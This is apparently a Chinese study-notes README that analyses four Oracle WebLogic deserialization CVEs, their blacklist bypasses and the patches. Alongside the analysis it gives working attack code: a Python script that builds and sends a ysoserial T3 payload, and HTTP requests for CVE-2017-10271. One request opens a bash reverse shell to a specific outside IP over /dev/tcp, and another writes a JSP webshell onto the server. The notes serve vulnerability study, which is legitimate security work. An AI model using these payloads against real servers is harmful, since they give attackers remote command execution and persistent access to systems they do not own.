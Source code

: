 ## 环境搭建

参考https://github.com/QAX-A-Team/WeblogicEnvironment?tab=readme-ov-file

## CVE-2015-4852

T3协议的反序列化。T3协议由协议头包裹，且数据包中包含多个序列化的对象。通过Yso生成反序列化payload，将payload替换掉数据包中的一个序列化对象，然后修改数据包的前四个字节（代表数据包的长度）：
![图片](README.assets/640)

漏洞的触发点在`wlserver/server/lib/wlthint3client.jar/weblogic/InboundMsgAbbrev`的`readObject()`。

```python
from os import popen
import struct # 负责大小端的转换
import subprocess
from sys import stdout
import socket
import re
import binascii

def generatePayload(gadget,cmd):
    YSO_PATH = "/Users/feng/ctftools/ysoserial/ysoserial-all.jar"
    popen = subprocess.Popen(['java','-jar',YSO_PATH,gadget,cmd],stdout=subprocess.PIPE)
    return popen.stdout.read()

def T3Exploit(ip,port,payload):
    sock =socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect((ip,port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    compile = re.compile("HELO:(.*).0.false")
    match = compile.findall(data.decode())
    if match:
        print("Weblogic: "+"".join(match))
    else:
        print("Not Weblogic")
        return
    header = binascii.a2b_hex(b"00000000")
    t3header = binascii.a2b_hex(b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
    desflag = binascii.a2b_hex(b"fe010000")
    payload = header + t3header  +desflag+  payload
    payload = struct.pack(">I",len(payload)) + payload[4:]
    sock.send(payload)
if __name__ == "__main__":
    ip = "127.0.0.1"
    port = 7001
    gadget = "CommonsCollections1"
    cmd = "touch /tmp/success"
    payload = generatePayload(gadget,cmd)
    T3Exploit(ip,port,payload)

```





漏洞的修复就是加黑名单：

![QQ_1724748865164](README.assets/QQ_1724748865164.png)

在`InboundMsgAbbrev`和`MsgAbbrevInputStream`的`resolveClass`方法中进行了过滤。







## CVE-2016-0638

就是对CVE-2015-4852黑名单的绕过，找到了`weblogic.jms.common.StreamMessageImpl`这个类，这个类实现的不是`Serializable`接口而是`Externalizable`接口，实现了这个接口的反序列化调用的是`readExternal`方法。

![QQ_1724749046169](README.assets/QQ_1724749046169.png)

相当于二次反序列化来绕过黑名单。

修复则是把`var5`改成了`FilteringObjectInputStream`，在里面进行了过滤。

![QQ_1724749046169](README.assets/1.png)



## CVE-2016-3510

与CVE-2016-0638类似，绕过黑名单是用`MarshalledObject`类。



该类有个`readResolve()`方法，在里面可以对`this.objBytes`进行反序列化。

![QQ_1724907779298](README.assets/QQ_1724907779298.png)

`readResolve()`方法会在`readObject()`的底层被调用，即`invokeReadResolve()`那里。

![QQ_1724749046169](README.assets/2.png)

也是一个利用二次反序列化实现的绕过。

修复：
![img](README.assets/剪贴板 2024-08-29 下午 1.08.37.png)



## CVE-2017-10271

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

反弹shell，命令有些字符要编码：

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/121.5.169.223/39123 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

写webshell：

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```



访问`http://your-ip:7001/bea_wls_internal/test.jsp`

具体流程参考https://xz.aliyun.com/t/10172?time__1311=Cqjx2DnDuDRD0D0x0vT8KQnDODgDhCCYjeD#toc-4

## References

[WebLogic安全研究报告](https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ%3D%3D&mid=2247485058&idx=1&sn=d22b310acf703a32d938a7087c8e8704)

[weblogic漏洞分析之CVE-2016-0638 - 先知社区](https://xz.aliyun.com/t/10173?time__1311=Cqjx2DnDuDRD0DRx0vT8KQnDx0hABiYDf2bD)

[Java安全之Weblogic漏洞分析与利用(上) - 先知社区](https://xz.aliyun.com/t/12947?time__1311=GqGxuD9QArDsNiQGkDRDAOzxgGIqG8QD1+eD#toc-5)

[从Weblogic原理上探究CVE-2015-4852、CVE-2016-0638、CVE-2016-3510究竟怎么一回事 - 先知社区](https://xz.aliyun.com/t/8443?time__1311=n4+xnD0DcDuDyDR2xjxYqGNnpBfKDtQKesYiTTk4D#toc-2)

[Java安全之ysoserial JRMP分析 - 先知社区](https://xz.aliyun.com/t/12780?time__1311=GqGxu7G%3DqCwxlrzG77DODnDRO8vG87//0AeD)